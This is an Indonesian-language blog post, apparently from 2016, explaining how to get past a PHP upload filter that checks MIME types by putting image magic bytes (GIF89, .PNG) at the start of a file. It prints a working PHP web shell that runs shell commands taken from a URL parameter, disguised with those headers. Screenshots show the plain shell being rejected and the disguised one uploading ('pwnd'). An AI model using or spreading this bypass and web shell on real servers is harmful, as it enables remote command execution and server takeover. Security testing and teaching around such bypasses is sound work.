 ```yaml
---
layout: post
title:  "Bypass MIME Upload Filter - Header Manipulation"
date:   2016-12-04 16:01:00 +0700
categories: bypass upload MIME filter extension
comments: false
---
```

 
Untuk melakukan upload filter yang dilakukan whitelist dalam bentuk MIME seperti muncul pada code PHP berikut :

```php
if($imageinfo['mime'] != 'image/gif' && 
   $imageinfo['mime'] != 'image/jpeg' && 
   $imageinfo['mime'] != 'image/jpg'&& 
   $imageinfo['mime'] != 'image/png') { die('Error 002'); }
```

disebutkan pada code tersebut bahwa hanya diperbolehkan untuk upload file yang dibatasi dengan MIME GIF, JPG dan PNG.
lalu bagaimana untuk bypass upload seperti ini.

cara mudahnya dengan cara menambahkan MIME tersebut pada shell yang akan di upload.

pada setiap **awal byte** file memiliki header sebagai identifikasi bahwa file tersebut memiliki content yang diikuti oleh headernya.
**first byte** ini biasa disebut MIME ( Multipurpose Internet Mail Extension ) pada kalangan internet, pada umumnya MIME disebut sebagai file file yang berekstensi yang dapat diikuti oleh format email yang meliputi standar email. MIME yang dimaksud disini adalah header yang berisikan informasi bahwa file tersebut adalah file berupa tipe apa dan menggunakan ekstensi apa. 

Maka dari itu artikel ini bertujuan utama untuk mengelabui fungsi utama dari php pada setiap kali mengirimkan file php akan mereturn beberapa data berupa array yang berisikan informasi mengenai file dari file size, file name, file extension dan juga file mime.

Setiap File memiliki **first byte** yang berbeda beda, berikut saya jelaskan beberapa **first byte** untuk file GIF, JPG dan PNG

GIF : pada first offset memiliki string **GIF89** atau 5 first byte nya **4749 4638 39**
> ![GIF first offest](http://k1m0ch1.github.io/images/first-byte-GIF.png)

PNG : pada first offset memiliki string **.PNG** atau 5 first byte nyte **8950 4e47 0d**
> ![PNG first offest](http://k1m0ch1.github.io/images/first-byte-png.png)

JPG : pada first offset memiliki string **JFIF** JPG memiliki null content sebanyak 6 byte, jadi first bytenya dimulai dari byte 7 **4a46 4946 00**
> ![JPG first offest](http://k1m0ch1.github.io/images/first-byte-JPG.png)

jadi first offset tersebut yang mengidtentifikasikan bahwa file tersebut tipe datanya seperti demikian.

lalu cara untuk bypass nya adalah cukup dengan membuat file *.gif atau tipe ekstensi yang di gunakan lalu dengan content file seperti berikut 

```python
GIF89

<?php echo shell_exec($_GET['cmd']); ?>
```

```python
.PNG

<?php echo shell_exec($_GET['cmd']); ?>
```

so lets try it

Upload File shell langsung

> ![trying to upload file shell](http://k1m0ch1.github.io/images/upload-file-1.png)

ternyata terdapat whitelist

> ![trying to upload file shell](http://k1m0ch1.github.io/images/upload-file-blocked.png)

lalu di coba upload file shell yang sudah diedit

> ![trying to upload file shell](http://k1m0ch1.github.io/images/upload-file-2.png)

pwnd

> ![trying to upload file shell](http://k1m0ch1.github.io/images/pwnd.png)